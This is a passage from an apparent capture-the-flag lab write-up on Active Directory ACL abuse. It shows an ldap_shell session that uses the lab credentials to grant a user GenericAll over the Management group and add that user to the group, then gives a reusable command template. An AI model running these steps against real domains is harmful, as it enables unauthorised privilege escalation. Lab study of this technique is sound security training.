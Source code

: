The user JUDITH.MADER@CERTIFIED.HTB has ownership of the group MANAGEMENT@CERTIFIED.HTB.

Object owners retain the ability to modify object security descriptors, regardless of permissions on the object's DACL.

![[Pasted image 20241110203026.png]]

Add user into group:

```bash
garffff@garffff:~$ ldap_shell certified.htb/judith.mader:judith09
[INFO] Starting interactive shell
judith.mader# set_genericall management judith.mader
[INFO] Found Target DN: CN=Management,CN=Users,DC=certified,DC=htb
[INFO] Target SID: S-1-5-21-729746778-2675978091-3820388244-1104
[INFO] Found Grantee DN: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[INFO] Grantee SID: S-1-5-21-729746778-2675978091-3820388244-1103
[INFO] DACL modified successfully! judith.mader now has control of management
 
judith.mader# add_user_to_group judith.mader management
[INFO] Adding user "Judith Mader" to group "Management" result: OK
```

### Summary

```bash
ldap_shell <domain>/<username>:<password>
set_genericall <target_group> <username>
add_user_to_group <targer_user> <target_group>
```